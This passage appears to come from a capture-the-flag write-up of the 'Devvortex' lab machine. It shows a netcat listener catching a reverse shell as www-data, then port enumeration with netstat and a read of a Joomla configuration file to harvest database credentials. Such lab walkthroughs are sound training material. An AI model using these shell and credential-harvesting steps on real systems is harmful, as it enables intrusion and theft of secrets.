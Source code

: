 Back to the local listener and we have reverse shell as www-data.

```shell
labadmin@labmachine:~/devvortex$ nc -lvnp 8000
Listening on 0.0.0.0 8000
Connection received on 10.10.11.242 37238
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
www-data@devvortex:~/dev.devvortex.htb$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@devvortex:~/dev.devvortex.htb$
```
The user flag is available under logan home directory, but no permission.

```shell
www-data@devvortex:~/dev.devvortex.htb/administrator$ cat /home/logan/user.txt
<vvortex.htb/administrator$ cat /home/logan/user.txt
cat: /home/logan/user.txt: Permission denied
```

##  Lateral Movement

Using `netstat` we look for listening ports.

```shell
www-data@devvortex:~/dev.devvortex.htb$ netstat -tnlp
netstat -tnlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      880/nginx: worker p
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      880/nginx: worker p
```

We see that port `3306` and `33060` are listening locally. These are usually used by MySQL by default. Looking at the `configuration.php` file in `/var/www/dev.devvortex.htb` we find database user, password and name.

```shell
www-data@devvortex:~/dev.devvortex.htb$ cat configuration.php
cat configuration.php
[OMITTED]
        public $user = 'lewis';
        public $password = '[OMITTED]';
        public $db = 'joomla';
[OMITTED]
```
